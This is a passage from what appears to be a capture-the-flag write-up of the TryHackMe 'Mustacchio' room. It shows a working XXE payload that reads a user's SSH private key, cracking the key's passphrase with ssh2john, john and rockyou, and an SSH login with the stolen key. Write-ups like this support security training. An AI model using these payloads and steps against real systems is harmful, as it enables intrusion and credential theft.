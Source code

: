 ```highlight
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>Daz</name>
  <author>Please work...</author>
  <com>&xxe;</com>
</comment>
```

Again this worked, however looking at the key it is encrypted so before I can use it to login I need to crack it.

```highlight
  GNU nano 4.9.2                                       
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E
<redacted>
```

I used ssh2john to generate a hash and saved it to a file called keyhash.

```highlight
└──╼ $/usr/share/john/ssh2john.py key > keyhash
```

Then using john and the rockyou wordlist I was able to get the keys password.

```highlight
└──╼ $john keyhash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
<redacted>       (key)
1g 0:00:00:05 DONE (2021-08-12 11:30) 0.1779g/s 2551Kp/s 2551Kc/s 2551KC/sa6_123..*7¡Vamos!
Session completed
```

To use the key I used chmod 600 and was able to login.

```highlight
└──╼ $chmod 600 key
┌─[daz@parrot]─[~/Documents/TryHackMe/Mustacchio]
└──╼ $ssh -i key barry@mustacchio.thm
Enter passphrase for key 'key': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Aug 12 10:31:58 2021 from 10.8.21.217
barry@mustacchio:~$ 
```
